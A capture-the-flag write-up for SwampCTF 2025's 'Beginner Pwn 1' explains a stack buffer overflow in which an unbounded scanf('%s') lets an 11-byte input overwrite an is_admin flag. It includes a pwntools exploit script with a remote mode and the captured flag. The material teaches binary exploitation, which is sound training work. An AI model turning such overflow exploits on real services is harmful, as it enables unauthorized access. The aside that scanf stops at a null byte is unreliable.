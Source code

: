 ```yaml
---
title: "Beginner Pwn 1 🧠 – Stack Corruption via Overflow (SwampCTF 2025)"
tags: [CTF, binary exploitation, buffer overflow, stack corruption, pwn]
---
```


# Beginner Pwn 1 🧠

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-SwampCTF%202025-purple)

> Are you really admin?
> This challenge serves as an introduction to pwn that new ctfers can use to grasp basic pwn concepts.

This challenge is a perfect illustration of how overflowing a local buffer on the stack can unintentionally alter adjacent variables — and grant access you're not supposed to have. 👀

## 📚 Table of Contents

- [Initial Analysis 🕵️](#initial-analysis-)
- [The Vulnerability 💣](#the-vulnerability-)
- [Stack Layout Breakdown 📐](#stack-layout-breakdown-)
- [Exploitation 💥](#exploitation-)
- [Exploit Script 🧪](#exploit-script-)
- [Conclusion 🧠](#conclusion-)

## Initial Analysis 🕵️

### Checksec result

![image](https://github.com/user-attachments/assets/163935b6-3fea-47bc-88c5-92f47605b8d7)

- RELRO: Partial
- Stack Canary: ❌
- NX: ✅
- PIE: ❌

The program asks you for a `username`, prints a debug view of the stack, then checks if you're an `admin`. If you are, you can print the flag. Otherwise, you get denied.

![image](https://github.com/user-attachments/assets/9e606bd9-2d9a-4d67-87e0-f4647b7c649f)

There’s no authentication — only a **boolean check**:

```
bool is_admin = false;
char username[10];
...
scanf("%s", username);
...
if (is_admin == true) {
   print_flag();
}
```

But here's the issue: `scanf("%s", username)` **does not limit input size**. 

So if you type more than 10 bytes, you start **overwriting `is_admin`**, which is placed **after** `username` on the stack.

### Ghidra dump

![Ghidra dump](https://github.com/user-attachments/assets/422bce68-495a-48e3-9b61-1cc088faed50)

## The Vulnerability 💣

This is a classic **stack-based buffer overflow**:
- `username` has 10 bytes
- Input is not bounded
- `is_admin` is just a few bytes after `username`
- `scanf("%s", ...)` stops at null byte, but has no size restriction

By overflowing `username` with **more than 10 bytes**, you overwrite `is_admin` (a `bool`, usually 1 byte) — and any **non-zero value** will make the condition `if (is_admin)` true!

## Stack Layout Breakdown 📐

Looking at Ghidra:

```
char local_19[2];      // 'choice' input
char username[10];     // local_17 to local_f
bool is_admin          // local_d
```

So memory-wise:

```
| local_19[1] |
| local_19[0] |
| username[9] |
| username[8] |
|    ...      |
| username[0] |
| is_admin    | ← we want to corrupt this
```

## Exploitation 💥

The strategy is:

- Input more than 10 characters as your `username`
- Add **at least 1 non-zero byte after that**
- This byte lands into `is_admin`, setting it to a truthy value (`!= 0`)
- You bypass the admin check and print the flag

Simple payload:

```
AAAAAAAAAAA
```

Where:
- `A` * 10 fills `username`
- `A` n°11 goes into `is_admin`, making it true (ASCII 0x41)

## Exploit Script 🧪

```python
from pwn import *
import argparse
import sys

# Constants
OVERFLOW_INPUT = b"A" * 11  # 10 for username + 1 byte to set is_admin=true

def get_flag(io):
    """
    Send overflow input and extract flag.
    """
    io.sendline(OVERFLOW_INPUT)  # Overflow username + set is_admin = true
    io.recvuntil(b"flag? (y/n) ")
    io.sendline(b"y")

    # Try to extract the flag
    try:
        line = io.recvline(timeout=2)
        if b"swamp" in line.lower():
            print("[+] Flag:", line.decode().strip())
        else:
            print("[!] Unexpected output:", line.decode().strip())
    except EOFError:
        print("[-] Failed to receive flag output.")

def run_local(path):
    """
    Launch local binary process.
    """
    print(f"[*] Running locally: {path}")
    elf = ELF(path)
    context.binary = elf
    return process(path)

def run_remote(host, port):
    """
    Connect to remote service.
    """
    print(f"[*] Connecting to {host}:{port}")
    return remote(host, port)

def main():
    parser = argparse.ArgumentParser(description="SwampCTF - is_admin exploit")
    subparsers = parser.add_subparsers(dest="mode", required=True)

    # --local ./binary
    local_parser = subparsers.add_parser("local", help="Run exploit locally")
    local_parser.add_argument("binary", type=str, help="Path to local binary")

    # --remote
    remote_parser = subparsers.add_parser("remote", help="Run exploit remotely")
    remote_parser.add_argument("ip", type=str, help="Remote IP or hostname")
    remote_parser.add_argument("port", type=int, help="Remote port")

    args = parser.parse_args()

    # Setup target
    if args.mode == "local":
        io = run_local(args.binary)
    elif args.mode == "remote":
        io = run_remote(args.ip, args.port)
    else:
        print("[-] Unknown mode")
        sys.exit(1)

    get_flag(io)
    io.close()

if __name__ == "__main__":
    main()
```

![Flag displayed](https://github.com/user-attachments/assets/d29fc466-309f-40dd-b84b-1a87f1e58266)

`[+] Flag: Here is your flag! swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}`

## Conclusion 🧠

This challenge demonstrates:

- How lack of input bounds (e.g. `scanf("%s")`) leads to overflows
- How local variable placement affects exploitability
- That even a single-byte overwrite can give admin access!

🔙 [Back to SwampCTF 2025 Writeups](../../)
